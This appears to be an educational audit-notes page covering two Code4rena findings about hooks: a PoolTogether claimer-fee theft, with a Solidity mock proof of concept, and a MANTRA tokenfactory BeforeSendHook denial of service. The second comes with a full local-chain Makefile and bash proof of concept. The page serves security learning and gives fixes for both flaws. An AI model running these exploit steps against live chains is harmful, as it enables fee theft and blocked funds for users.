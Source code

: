 # ETAAcademy-Adudit: 3. Hooks

<table>
  <tr>
    <th>title</th>
    <th>tags</th>
  </tr>
  <tr>
    <td>03. Hooks</td>
    <td>
      <table>
        <tr>
          <th>audit</th>
          <th>basic</th>
          <th>DeFi</th>
          <td>hooks</td>
        </tr>
      </table>
    </td>
  </tr>
</table>

[Github](https://github.com/ETAAcademy)｜[Twitter](https://twitter.com/ETAAcademy)｜[ETA-Audit](https://github.com/ETAAcademy/ETAAcademy-Audit)

Authors: [Evta](https://twitter.com/pwhattie), looking forward to your joining

## 1.[Medium] The winner can steal claimer fees, and force him to pay for the gas

### Use hooks to claim prize without fees

- Summary: To avoid paying transaction fees, a user can exploit a vulnerability in the Claimer contract. They can create a hook function, beforeClaimPrize, which allows them to claim their prize without paying fees and return their address. When the Claimer contract attempts to claim the prize, it fails as it has already been claimed. Using a MEV searcher, the user can then claim multiple prizes, including their own, without paying fees.

- Impact & Recommendation: One of the defense against the described attack is to check the gas cost of calling the beforeClaimPrize hook. By verifying if the prize state changes from unclaimed to claimed after the hook is called, transactions can be reverted if such a change occurs, thus preventing the attack from succeeding.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-03-pooltogether#m-01-the-winner-can-steal-claimer-fees-and-force-him-to-pay-for-the-gas) & [Report](https://code4rena.com/reports/2024-03-pooltogether)

  <details><summary>POC</summary>

  ```solidity
    import { console2 } from "forge-std/console2.sol";
    import { PrizePoolMock } from "../contracts/mock/PrizePoolMock.sol";
    contract Auditor_MockPrizeToken {
        mapping(address user => uint256 balance) public balanceOf;
        function mint(address user, uint256 amount) public {
            balanceOf[user] += amount;
        }
        function burn(address user, uint256 amount) public {
            balanceOf[user] -= amount;
        }
    }
    contract Auditor_PrizePoolMock {
        Auditor_MockPrizeToken public immutable prizeToken;
        constructor(address _prizeToken) {
            prizeToken = Auditor_MockPrizeToken(_prizeToken);
        }
        // The reward is fixed to 100 tokens
        function claimPrize(
            address winner,
            uint8 /* _tier */,
            uint32 /* _prizeIndex */,
            address /* recipient */,
            uint96 reward,
            address rewardRecipient
        ) public returns (uint256) {
            // Distribute rewards if the PrizePool earns a reward
            if (prizeToken.balanceOf(address(this)) >= 100e18) {
                prizeToken.mint(winner, 100e18 - uint256(reward)); // Transfer reward tokens to the winner
                // Transfer fees to the claimer Receipent.
                // Instead of adding balance to the PrizePool contract and then the claimerRecipent
                // Can withdraw it, we will transfer it to the claimerRecipent directly in our simulation
                prizeToken.mint(rewardRecipient, reward);
                // Simulating Token transfereing by minting and burning
                prizeToken.burn(address(this), 100e18);
            } else {
                return 0;
            }
            return uint256(100e18);
        }
    }
    contract Auditor_Claimer {
        ClaimableWrapper public immutable prizeVault;
        constructor(address _prizeVault) {
            prizeVault = ClaimableWrapper(_prizeVault);
        }
        function claimPrizes(
            address[] calldata _winners,
            uint8 _tier,
            uint256 _claimerFees,
            address _feeRecipient
        ) external {
            for (uint i = 0; i < _winners.length; i++) {
                prizeVault.claimPrize(_winners[i], _tier, 0, uint96(_claimerFees), _feeRecipient);
            }
        }
    }

  ```

  </details>

## 2.[Medium] BlockBeforeSend hook can be exploited to perform a denial of service

### Token hook

- Summary: In MANTRA’s tokenfactory module, MsgSetBeforeSendHook allows token creators to set a BeforeSendHook for a specific token and bind it to a CosmWasm contract address. The contract’s Sudo logic determines whether token transfers succeed. A malicious token creator can bind the BeforeSendHook to an invalid address (e.g., an EOA account), causing all transfers of that token to fail. If the token is used in critical operations such as staking rewards distribution or ABCI processes, it can result in a Denial of Service (DoS) attack.

- Impact & Recommendation: Introduce a whitelist or access control mechanism to restrict BeforeSendHook registration to only trusted users with appropriate permissions.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-11-mantra-chain#h-01-blockbeforesend-hook-can-be-exploited-to-perform-a-denial-of-service) & [Report](https://code4rena.com/reports/2024-11-mantra-chain)

  <details><summary>POC</summary>

  ```makefile

  poc: build
  @echo "starting POC.."

  # clear port 26657 if old process still running
  @if lsof -i :26657; then \
  	kill -9 $$(lsof -t -i :26657) || echo "cannot kill process"; \
  fi

  # remove old setup and init new one
  @rm -rf .mantrapoc
  @mkdir -p .mantrapoc

  ./build/mantrachaind init poc-test --chain-id test-chain --home .mantrapoc
  ./build/mantrachaind keys add validator --keyring-backend test --home .mantrapoc
  ./build/mantrachaind keys add validator2 --keyring-backend test --home .mantrapoc

  # create alice and bob account
  ./build/mantrachaind keys add alice --keyring-backend test --home .mantrapoc
  ./build/mantrachaind keys add bob --keyring-backend test --home .mantrapoc
  ./build/mantrachaind genesis add-genesis-account $$(./build/mantrachaind keys show validator -a --keyring-backend test --home .mantrapoc) 500000000000stake --home .mantrapoc
  ./build/mantrachaind genesis add-genesis-account $$(./build/mantrachaind keys show validator2 -a --keyring-backend test --home .mantrapoc) 500000000000stake --home .mantrapoc
  ./build/mantrachaind genesis add-genesis-account $$(./build/mantrachaind keys show alice -a --keyring-backend test --home .mantrapoc) 500000000000stake --home .mantrapoc
  ./build/mantrachaind genesis add-genesis-account $$(./build/mantrachaind keys show bob -a --keyring-backend test --home .mantrapoc) 500000000000stake --home .mantrapoc

  ./build/mantrachaind genesis gentx validator 100000000stake --chain-id test-chain --keyring-backend test --home .mantrapoc
  # ./build/mantrachaind genesis gentx validator2 100000000stake --chain-id test-chain --keyring-backend test --home .mantrapoc


  ./build/mantrachaind genesis collect-gentxs --home .mantrapoc
  # start node
  ./build/mantrachaind start --home .mantrapoc --minimum-gas-prices 0stake

  ```

  ```bash
    export ALICE=`mantrachaind keys show alice --keyring-backend test --home .mantrapoc -a`
    export BOB=`mantrachaind keys show bob --keyring-backend test --home .mantrapoc -a`
    export VAL_BECH32=`mantrachaind keys show validator --keyring-backend test --home .mantrapoc -a`
    # export VAL2_BECH32=`mantrachaind keys show validator2 --keyring-backend test --home .mantrapoc -a`
    export VAL=$(mantrachaind q staking validators --output json | jq -r '.validators[0].operator_address')

    echo "alice create x/tokenfactory denom"
    mantrachaind tx tokenfactory create-denom foo --from alice --keyring-backend test --home .mantrapoc --chain-id test-chain -y --fees 1000000stake --gas auto

    sleep 2

    export DENOM=`echo "factory/$ALICE/foo"`

    echo "alice mint some tokens"
    mantrachaind tx tokenfactory mint 10000$DENOM --from alice --keyring-backend test --home .mantrapoc --chain-id test-chain -y --fees 1000000stake --gas auto

    sleep 2

    # double check tokens minted
    mantrachaind q bank balance $ALICE $DENOM

    echo "bob delegate funds to validator"
    mantrachaind tx staking delegate $VAL 100000000stake --from bob --keyring-backend test --home .mantrapoc --chain-id test-chain -y --fees 1000000stake --gas auto

    sleep 2

    # double check delegation succeeded
    mantrachaind q staking delegation $BOB $VAL

    echo "alice fund the minted tokens to validator rewards pool"
    mantrachaind tx distribution fund-validator-rewards-pool $VAL 10000$DENOM --from alice --keyring-backend test --home .mantrapoc --chain-id test-chain -y --fees 1000000stake --gas auto

    sleep 2

    echo "alice sets before send hook to dummy address, forcing all transfers to fail"
    mantrachaind tx tokenfactory set-before-send-hook $DENOM $ALICE --from alice --keyring-backend test --home .mantrapoc --chain-id test-chain -y --fees 1000000stake --gas auto

    sleep 2

    echo "Wait some time for injected rewards to accrue for delegators"
    echo "validator rewards:"
    mantrachaind q distribution rewards $VAL_BECH32

    echo "delegator rewards:"
    mantrachaind q distribution rewards $BOB

    # validators and delegators should be able to claim rewards, however it fails due to BlockBeforeSend hook
    # rpc error: code = Unknown desc = rpc error: code = Unknown desc = failed to execute message; message index: 0: failed to call before send hook for denom factory/mantra1k3uf5anqxefvuck455jgzasaagwpkt5483zv4m/foo: address mantra1k3uf5anqxefvuck455jgzasaagwpkt5483zv4m: no such contract [CosmWasm/wasmd@v0.53.0/x/wasm/types/errors.go:156] with gas used: '135697': unknown request

    echo "=========================================================="
    echo "        validator tries to withdraw rewards"
    echo "=========================================================="

    mantrachaind tx distribution withdraw-all-rewards --from validator --keyring-backend test --home .mantrapoc --chain-id test-chain -y --fees 1000000stake --gas auto

    sleep 2

    echo "=========================================================="
    echo "        delegator tries to withdraw rewards"
    echo "=========================================================="

    mantrachaind tx distribution withdraw-all-rewards --from bob --keyring-backend test --home .mantrapoc --chain-id test-chain -y --fees 1000000stake --gas auto

    sleep 2

    echo "=========================================================="
    echo "        delegator tries to delegate more tokens"
    echo "=========================================================="

    mantrachaind tx staking delegate $VAL 10stake --from bob --keyring-backend test --home .mantrapoc --chain-id test-chain -y --fees 1000000stake --gas auto

    sleep 2

    echo "=========================================================="
    echo "        delegator tries to unbond"
    echo "=========================================================="

    mantrachaind tx staking unbond $VAL 10stake --from bob --keyring-backend test --home .mantrapoc --chain-id test-chain -y --fees 1000000stake --gas auto

    sleep 2

    echo "=========================================================="
    echo "        delegator tries to redelegate"
    echo "=========================================================="

    echo '{"pubkey": {"@type":"/cosmos.crypto.ed25519.PubKey","key":"oWg2ISpLF405Jcm2vXV+2v4fnjodh6aafuIdeoW+rUw="},"amount": "1000000stake","moniker": "myvalidator","identity": "optional identity signature (ex. UPort or Keybase)","website": "validator'\''s (optional) website","security": "validator'\''s (optional) security contact email","details": "validator'\''s (optional) details","commission-rate": "0.1","commission-max-rate": "0.2","commission-max-change-rate": "0.01","min-self-delegation": "1"}' > validator.json

    TX_RESPONSE=$(mantrachaind tx staking create-validator ./validator.json --from validator2 --keyring-backend test --home .mantrapoc --chain-id test-chain -y --fees 1000000stake --gas auto --output json)

    sleep 2

    # echo $TX_RESPONSE

    TX_HASH=$(echo "$TX_RESPONSE" | jq -r '.txhash')

    # echo $TX_HASH

    # parse validator address
    VAL2=$(mantrachaind q tx $TX_HASH --output json | jq -r '.events[] | select(.type=="create_validator") | .attributes[] | select(.key=="validator") | .value')


    mantrachaind tx staking redelegate $VAL $VAL2 10stake --from bob --keyring-backend test --home .mantrapoc --chain-id test-chain -y --fees 1000000stake --gas auto

    sleep 2

    # a chain halt could occur if the validator is slashed while having a redelegation, as the error is returned back to ABCI
    # BeginBlock -> x/evidence, x/slashing BeginBlocker -> handleEquivocationEvidence/HandleValidatorSignature -> SlashWithInfractionReason -> Slash -> SlashRedelegation -> Unbond -> BeforeDelegationSharesModified -> withdrawDelegationRewards -> error
  ```

  </details>
